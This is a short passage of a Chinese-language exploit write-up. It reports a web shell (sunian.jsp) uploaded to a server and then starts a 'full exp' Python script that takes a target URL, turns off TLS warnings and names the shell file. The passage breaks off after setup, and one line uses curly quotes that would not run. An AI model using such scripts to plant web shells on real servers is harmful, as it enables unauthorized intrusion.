 > 虽然执行报错了，但是不影响
> shell地址：https://www.0-sec.org:7071/downloads/sunian.jsp

![3.png](img/ccba9399e7f2b9e1f7ae14b6a0b65962.png)

### 完整版exp

![4.png](img/58aca7f55ea5f43bed975fd39f0fb0f1.png)

```
#coding=utf8
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
base_url=sys.argv[1]
base_url=base_url.rstrip("/")
#利用request模块来发包和接受数据，sys模块用来传参，并删除最右侧的/斜杠

filename = “sunian.jsp”

```